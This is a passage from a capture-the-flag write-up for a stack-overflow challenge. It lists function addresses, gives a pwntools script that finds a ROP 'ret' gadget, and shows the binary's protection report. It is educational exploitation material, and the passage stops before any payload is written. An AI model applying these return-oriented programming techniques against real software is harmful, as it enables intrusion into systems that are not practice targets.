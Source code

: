 
    win() address: 0x4011a0
    vuln() address: 0x4011d0
    main() address: 0x401070


To the script and obtained some addresses for the exploit

### Finding Addresses
Using pwntools to analyze the binary:

```
#!/usr/bin/env python3

from pwn import *
import os

context.update(arch='amd64', os='linux')

# Load  binary
script_dir = os.path.dirname(os.path.abspath(__file__))
binary_path = os.path.join(script_dir, 'chal')
elf = ELF(binary_path)


# Create ROP 
rop = ROP(elf)

# Find ret gadgets

ret_gadgets = rop.find_gadget(['ret'])
print(f"ret gadget: {hex(ret_gadgets.address) if ret_gadgets else 'Not found'}")


```
```python

C:\Citadel_CTF_Writeups\Return_Of_Stack>python find_gadgets.py
[*] 'C:\\Citadel_CTF_Writeups\\Return_Of_Stack\\chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[*] Loaded 6 cached gadgets for 'C:\\Citadel_CTF_Writeups\\Return_Of_Stack\\chal'
ret gadget: 0x40101a

```

Maint thing is this :

```
ret gadget: 0x40101a
```
